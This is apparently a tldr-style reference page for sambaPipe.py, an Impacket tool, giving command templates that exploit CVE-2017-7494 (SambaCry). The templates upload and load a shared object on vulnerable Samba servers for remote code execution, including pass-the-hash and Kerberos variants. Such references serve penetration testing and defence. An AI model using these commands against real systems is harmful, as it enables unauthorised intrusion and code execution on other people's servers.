 ```yaml
---
title: "Samba Exploit - RCE with SambaCry | Online Free DevTools by Hexmos"
name: sambapipe.py
path: /freedevtools/tldr/common/sambapipe.py
canonical: "https://hexmos.com/freedevtools/tldr/common/sambapipe.py/"
description: "Exploit SambaCry vulnerabilities with sambaPipe.py. Achieve Remote Code Execution (RCE) on vulnerable Samba servers using shared object (SO) files. Free online tool, no registration required."
category: common
keywords:
- Samba exploit
- SambaCry exploit
- RCE exploit
- Remote Code Execution
- SMB vulnerability
- Shared object upload
- Linux exploit
- Network penetration testing
- CVE-2017-7494
- Impacket
features:
- Exploit SambaCry vulnerability for RCE
- Upload shared object files to vulnerable Samba servers
- Authenticate with NTLM hashes for exploitation
- Support Kerberos authentication for targeted exploitation
- Customize SMB connection port during exploitation
ogImage: "https://hexmos.com/freedevtools/site-banner.png"
twitterImage: "https://hexmos.com/freedevtools/site-banner.png"
---
```


# sambaPipe.py

> Exploit CVE-2017-7494 (SambaCry) to upload and load a shared object (SO) file on a vulnerable Samba server for remote code execution.
> More information: <https://github.com/fortra/impacket>.

- Upload and load a shared object file on a vulnerable Samba server:

`sambaPipe.py -so {{path/to/file.so}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Authenticate using NTLM hashes instead of a password:

`sambaPipe.py -so {{path/to/file.so}} -hashes {{LM_HASH:NT_HASH}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Use Kerberos authentication for the target:

`sambaPipe.py -so {{path/to/file.so}} -k -no-pass {{domain}}/{{username}}:{{password}}@{{target}}`

- Specify a domain controller IP for authentication:

`sambaPipe.py -so {{path/to/file.so}} -dc-ip {{dc_ip}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Use a custom port for the SMB connection:

`sambaPipe.py -so {{path/to/file.so}} -port {{port}} {{domain}}/{{username}}:{{password}}@{{target}}`
